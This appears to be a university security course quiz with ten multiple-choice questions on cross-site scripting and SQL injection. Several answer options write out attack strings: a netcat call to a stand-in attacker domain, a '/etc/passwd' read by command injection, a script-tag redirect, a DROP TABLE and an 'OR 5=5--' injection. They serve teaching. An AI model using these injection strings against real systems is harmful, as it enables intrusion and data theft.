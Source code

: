 ## Question 1

:rat:Which language is used for Cross Site Scripting?

1. Java
2. Http
3. Php
4. Javascript

## Question 2

:rat:Which attack type is not possible with Cross Site Scripting

1. Overwriting the webpage content on the server side
2. Overwriting the webpage content on the client side
3. Sending attacker controlled requests to the server
4. Stealing sessions of logged in users

## Question 3

:rat:Which of the following looks like an XSS attack?

1. `http://innsida.ntnu.no/blackboard|nc xss.evildomain.com 8080`
2. `http://innsida.ntnu.no/blackboard<script>document.location='http://innsida.ntnuu.no/blackboard'</script>`
3. `http://innsida.ntnu.no/blackboard<?php print('http://innsida.ntnuu.no/blackboard') ?>`
4. `http://innsida.ntnu.no/blackboard|cat /etc/passwd`

## Question 4

:rat:Which of these does not prevent Cross Site Scripting?

1. encode all output coming from input data
2. disable client side scripts
3. filtering for the `<script>` keyword with firewall
4. validate all user input on the server side

## Question 5

:rat:Which SQL statement can be used to retrieve data from the database?

1. select
2. update
3. insert
4. drop

## Question 6

:rat:What is the meaning of * in an SQL query?

1. all columns
2. all rows
3. all tables
4. `*` is not used in SQL

## Question 7

:rat:Which SQL keyword is used to filter the result?

1. Union
2. Where
3. Filter
4. If

## Question 8

:rat:What is manipulated with SQL injection?

1. the browser sandboxing
2. the database query
3. the http protocol
4. the javascript

## Question 9

:rat:What is possible with SQL injection?

1. only overwriting data in the database
2. only login bypass
3. both reading data and overwriting data in the database
4. only reading data from the database

## Question 10

:rat:Which of the following link looks like an SQL injection attack attempt?

1. `http://innsida.ntnu.no/blackboard?teacher=<script>alert('SQL injection')</script>`
2. `http://innsida.ntnu.no/blackboard?teacher=Drop table students;#`
3. `http://innsida.ntnu.no/blackboard?teacher=sqlmap --wizard`
4. `http://innsida.ntnu.no/blackboard?teacher=Laszlo'+OR+5=5--`
